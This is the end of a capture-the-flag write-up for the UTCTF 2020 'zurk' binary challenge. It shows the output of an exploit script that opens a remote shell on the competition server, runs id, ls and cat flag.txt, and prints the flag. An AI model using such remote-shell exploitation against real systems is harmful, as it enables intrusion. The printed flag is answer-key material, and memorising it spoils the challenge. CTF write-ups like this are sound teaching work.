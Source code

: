 
#### Get the flag

```
root@a24709512af0:/pwd/datajerk/utctf2020/zurk# ./exploit.py
[*] '/pwd/datajerk/utctf2020/zurk/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to binary.utctf.live on port 9003: Done
[*] Switching to interactive mode
$ id
uid=1000(zurk) gid=1000(zurk) groups=1000(zurk)
$ ls -l
total 4
-rw-r--r-- 1 root root 38 Mar  9 01:05 flag.txt
$ cat flag.txt
utflag{wtf_i_h4d_n0_buffer_overflows}
```

Flag: `utflag{wtf_i_h4d_n0_buffer_overflows}`



